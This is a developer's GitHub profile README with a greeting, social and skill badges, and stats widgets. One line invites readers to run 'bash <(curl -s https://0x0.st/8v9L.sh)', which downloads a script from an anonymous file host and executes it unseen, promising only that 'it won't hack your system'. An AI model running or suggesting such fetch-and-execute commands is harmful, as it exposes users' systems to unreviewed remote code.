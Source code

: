 <div id="greetings" align="center">
<h1>
  Hey, I'm Karuna!
  <img src="https://media.giphy.com/media/hvRJCLFzcasrR4ia7z/giphy.gif" width="30px"/>
</h1>
<h2>Frontend developer. </h2>
</div>
<div id="badges" align="center">
  <a href="https://www.linkedin.com/in/starlightknown/">
  <img src="https://img.shields.io/badge/LinkedIn-blue?style=for-the-badge&logo=linkedin&logoColor=white" alt="LinkedIn Badge"/>
  </a>
  <a href="https://www.x.com/starlightknown/">
  <img alt="X (formerly Twitter) Follow" src="https://img.shields.io/twitter/follow/:starlightknown">
  </a>
</div>
<div id="profile views" align="center">
<img src="https://komarev.com/ghpvc/?username=starlightknown&style=flat-square&color=blue" alt=""/>
</div>
<h4>
  
🤓 I develop beautiful web experiences.

🚀 I enjoy solving business problems with code.

Try out in your terminal: (it won't hack your system)
 
bash <(curl -s https://0x0.st/8v9L.sh)


</h4>

---

### :hammer_and_wrench: Languages & Frameworks:

![Python](https://img.shields.io/badge/Python-316192?style=for-the-badge&logo=python&logoColor=yellow)
![[HTML](https://skillicons.dev/icons?i=html)](https://img.shields.io/badge/HTML5-E34F26?style=for-the-badge&logo=html5&logoColor=white)
![CSS](https://img.shields.io/badge/css-%231572B6.svg?style=for-the-badge&logo=css3&logoColor=white)
![JavaScript](https://img.shields.io/badge/javascript-%231572B6.svg?style=for-the-badge&logo=javascript3&logoColor=white)
![TypeScript](https://img.shields.io/badge/typescript-%231572B6.svg?style=for-the-badge&logo=typescript3&logoColor=white)
![React](https://img.shields.io/badge/-ReactJs-61DAFB?logo=react&logoColor=white&style=for-the-badge)

---
### :fire: My Stats :
[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=starlightknown&layout=compact)](https://github.com/anuraghazra/github-readme-stats)
[![GitHub Streak](https://streak-stats.demolab.com?user=starlightknown&theme=transparent&hide_border=true&mode=weekly&fire=FF2222&dates=2C68F6&currStreakLabel=2C68F6&currStreakNum=2C68F6)](https://git.io/streak-stats)
